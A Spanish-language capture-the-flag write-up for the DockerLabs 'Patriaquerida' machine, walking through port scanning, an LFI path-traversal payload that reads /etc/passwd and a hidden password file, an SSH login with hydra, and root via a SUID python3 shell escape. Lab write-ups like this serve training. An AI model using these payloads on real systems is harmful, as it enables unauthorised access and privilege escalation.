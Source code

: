 # 🖥️ Writeup - Patriaquerida 

**Plataforma:** Dockerlabs  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip patriaquerida.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh patriaquerida.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sCV -p22,80 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-13 16:18 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000027s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e1:b8:ce:5c:65:5a:75:9e:ed:30:7a:2b:b2:25:47:6b (RSA)
|   256 a3:78:9f:44:57:0e:15:4f:15:93:59:d0:04:89:a9:f4 (ECDSA)
|_  256 5a:7a:89:3c:ed:da:4a:b4:a0:63:d3:ba:04:39:c3:a4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.94 seconds
```

Tenemos abiertos los puertos `22` y `80`.

Accedemos por `HTTP` y nos encontramos con una página por defecto de `Apache2`.

# GOBUSTER

Realizamos `fuzzing` de directorios para intentar localizar directorios o archivos ocultos.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,zip,php,txt,bak,sh -b 403,404 -t 60
```

Info:
```
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 60
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.8
[+] Extensions:              txt,bak,sh,html,zip,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10918]
/index.php            (Status: 200) [Size: 110]
Progress: 457530 / 1543899 (29.63%)
```

Encontramos un archivo `index.php` y, al acceder, aparece el siguiente mensaje:

```
Bienvenido al servidor CTF Patriaquerida.¡No olvides revisar el archivo oculto en /var/www/html/.hidden_pass!
```

De este mensaje deducimos que podemos utilizar `LFI` (Local File Inclusion) para intentar leer el archivo oculto en `/var/www/html/`.

# LFI

Usamos wfuzz para encontrar un parámetro que nos permita incluir un archivo.

```bash
wfuzz -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://172.17.0.2/index.php?FUZZ=../../../../../etc/passwd --hc 404 --hl 0
```

Info:
```
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/index.php?FUZZ=../../../../../etc/passwd
Total requests: 220559

=====================================================================
ID           Response   Lines    Word       Chars       Payload        
=====================================================================

000000099:   200        26 L     36 W       1367 Ch     "page"
```

Identificamos el parámetro `page`, por lo que podemos emplearlo para leer el archivo oculto mencionado antes.

```
http://172.17.0.2/index.php?page=/var/www/html/.hidden_pass
```

![alt text](../images/balu.png)

Obtenemos la hidden pass, pero asumiendo que se trata de una contraseña aún nos falta un usuario. Por ello aprovechamos el `LFI` para revisar el contenido de `/etc/passwd`.

```
http://172.17.0.2/index.php?page=/etc/passwd
```

![alt text](../images/etc.png)

Allí encontramos dos usuarios: `mario` y `pinguino`.

Comprobamos si la contraseña obtenida es válida para alguno de estos dos usuarios.

```bash
hydra -l pinguino -p balu ssh://172.17.0.2 -t 60
```

Info:
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-13 16:31:58
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: pinguino   password: balu
```

Confirmamos credenciales válidas para `pinguino` : `balu`.
Accedemos por `SSH`.

# ESCALADA DE PRIVILEGIOS

Una vez dentro, encontramos en su directorio un archivo `.txt` que contiene la contraseña del usuario `mario`.

```
La contraseña de mario es: invitaacachopo
```

La utilizamos para pivotar a este usuario.

```bash
su mario
```

El cambio se realiza con éxito.

Ya como usuario `mario`, comprobamos permisos `sudo` y `SUID`.

```bash
find / -perm -4000 -type f 2>/dev/null
```

Info:
```
/usr/bin/umount
/usr/bin/man
/usr/bin/chsh
/usr/bin/su
/usr/bin/mount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/python3.8
/usr/bin/sudo
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Observamos que el binario `python3` tiene permisos `SUID`, lo que podemos aprovechar para escalar privilegios de la siguiente manera:

```bash
/usr/bin/python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

Info:
```
# whoami
root
# 
```

Ya somos root!